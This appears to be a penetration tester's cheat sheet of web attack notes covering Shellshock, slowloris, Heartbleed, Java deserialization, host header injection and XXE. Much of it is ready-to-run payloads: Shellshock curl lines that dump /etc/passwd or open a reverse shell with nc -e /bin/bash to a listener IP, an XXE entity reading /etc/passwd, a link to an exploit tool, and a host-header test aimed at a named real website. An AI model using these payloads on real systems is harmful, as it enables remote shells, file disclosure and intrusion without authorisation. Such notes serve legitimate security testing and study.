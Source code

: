

shellshock -- 
curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.14/cgi-bin/status
curl -H "X-Frame-Options: () {:;};echo;/bin/nc -e /bin/bash 192.168.81.128 443" 192.168.81.131/cgi-bin/helloworld.cgi


slowloris attack -- sending valid requests to a server superslowly. so if a server is not implementing timeout then it results in dos attack.


heartbleed: SSL/TLS weakness to read system memory via sending the malicious heartbeat(no size of request validation) and there is no limit on the number of attacks that can be performed.
http://www.garage4hackers.com/entry.php?b=2551
openssl s_client -connect domain.com:443 -tlsextdebug 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo safe



Java Deserialization vulnerability: 

EXPLOIT: https://github.com/joaomatosf/jexboss
		 https://<target-website>/invoker/JMXInvokerServlet
Serialization refers to a process of converting an object into a format which can be persisted to disk (for example saved to a file or a datastore), sent through streams (for example stdout), or sent over a network. The format in which an object is serialized into, can either be binary or structured text (for example XML, JSON YAML…). JSON and XML are two of the most commonly used serialization formats within web applications.
Deserialization on the other hand, is the opposite of serialization, that is, transforming serialized data coming from a file, stream or network socket into an object.
Web applications make use of serialization and deserialization on a regular basis and most programming languages even provide native features to serialize data (especially into common formats like JSON and XML). It’s important to understand that safe deserialization of objects is normal practice in software development. The trouble however, starts when deserializing untrusted user input.



HOST HEADER INJECTION:
https://URL?host_header=x-forwarded-host/host
X-Forwarded-Host: google.com
curl --verbose --header 'Host: www.example.com' 'https://www.myuhc.com/member/themes/html/portal/images/utility?host_header=host'


XML Injection: 
SAML XML injection reference:
https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/#saml-request-example
https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/#a-very-brief-review
https://research.aurainfosec.io/bypassing-saml20-SSO/

<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <foo>&xxe;</foo>
